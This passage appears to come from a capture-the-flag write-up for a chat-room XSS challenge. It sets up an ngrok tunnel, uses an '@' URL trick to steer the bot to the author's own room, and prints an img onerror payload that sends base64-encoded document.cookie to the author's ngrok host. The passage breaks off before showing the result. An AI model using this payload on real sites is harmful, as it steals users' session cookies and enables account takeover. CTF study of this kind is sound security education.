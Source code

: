 

Now let's visit our Chat Room (using the DOMPurify room) using the public Internet:

https://e986-76-112-103-115.ngrok.io/?nickname=guest6642&room=DOMPurify

It works!

![image-20230112195412700](./assets/chatuwu-ngrok1.png)

Before we ask the XSS Bot to visit our chat room, let's ready our payload.

Here is at least one easy way to exfiltrate a browser's cookies:

```
<img src=x onerror='fetch("http://e986-76-112-103-115.ngrok.io/data?prize="+btoa(document.cookie))'>
```

`btoa()` is a function that encodes the parameter into base 64.

Armed with that, let's do a test run.

While we have the above browser tab open, in a new browser tab, visit the CTF Chat Room using a URL like this:

http://47.254.28.30:58000/?room=DOMPurify&nickname=bot@e986-76-112-103-115.ngrok.io

Notice we're using the `@` trick so the browser will end up talking to *our* Chat Room instead of the CTF's Chat Room.

Back in the **first** browser, tab, submit our XSS attack we prepared above.



When we do this, notice the **second** browser tab shows this:

![image-20230112195744989](./assets/chatuwu-xss.png)

Notice the broken image (which is what we expected).

If we go back to our monitoring page: http://localhost:4040/

We see:
